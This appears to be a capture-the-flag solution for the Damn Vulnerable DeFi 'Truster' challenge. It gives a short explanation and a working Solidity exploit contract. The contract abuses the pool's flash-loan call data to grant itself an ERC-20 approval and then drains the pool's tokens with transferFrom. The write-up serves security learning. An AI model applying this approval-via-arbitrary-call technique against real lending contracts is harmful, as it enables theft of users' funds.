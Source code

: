 # 3. Truster

- Here we had a backdoor - we didn’t steal the tokens with the first transaction but we called `ERC-20` function `approve` in order to create a backdoor to steal the tokens later

## Solution:

```solidity
contract TrusedLenderPoolExploiter {
    constructor(address pool, address token, address recovery) {
        bytes memory flashLoanData = abi.encodeWithSelector(
            DamnValuableToken(token).approve.selector, address(this), DamnValuableToken(token).balanceOf(address(pool))
        );
        TrusterLenderPool(pool).flashLoan(0, address(this), token, flashLoanData);

        DamnValuableToken(token).transferFrom(
            address(pool), recovery, DamnValuableToken(token).balanceOf(address(pool))
        );
    }
}

function test_truster() public checkSolvedByPlayer {
    new TrusedLenderPoolExploiter(address(pool), address(token), recovery);
}
```
